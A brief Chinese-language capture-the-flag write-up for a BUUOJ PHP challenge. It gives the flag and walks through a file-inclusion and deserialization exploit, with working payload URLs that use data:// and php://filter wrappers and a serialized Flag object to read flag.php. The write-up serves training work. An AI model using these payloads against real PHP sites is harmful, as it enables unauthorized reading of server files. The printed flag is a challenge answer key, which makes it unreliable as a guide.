 ```yaml
---
Author: SuperJason
Date: 2021-01-19
---
```


## flag
`flag{518a6b39-0416-4b19-85d5-477975f31b6e}`

## 思路
1. 分析源码，通过data伪协议构造text，php伪协议获取useless.php  
```http://f24186f1-2297-429c-a5c2-67224f46c43a.node3.buuoj.cn?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&password=1&file=php://filter/read=convert.base64-encode/resource=useless.php```
2. useless.php文件内容如下，构造序列化的数据，在反序列化之后，会自动执行__tostring函数，实现获得文件内容  
```php
<?php

class Flag{  //flag.php  
    public $file;  //="flag.php"
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
};
//$f=new Flag();
//echo serialize($f);
?>
```
3. 完整载荷如下，这里file利用伪协议的话，会让`echo $password`无法展示，故这里为useless.php   
```http://f24186f1-2297-429c-a5c2-67224f46c43a.node3.buuoj.cn?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}&file=useless.php```
4. 在注释中含有flag  
   ![](images/zjctf-2019-nz.png)

## 总结
- [php伪协议与文件包含](https://www.smi1e.top/%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%E4%B8%8Ephp%E4%BC%AA%E5%8D%8F%E8%AE%AE/)
- [php反序列化魔法函数](http://p0desta.com/2018/04/01/php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%80%BB%E7%BB%93/)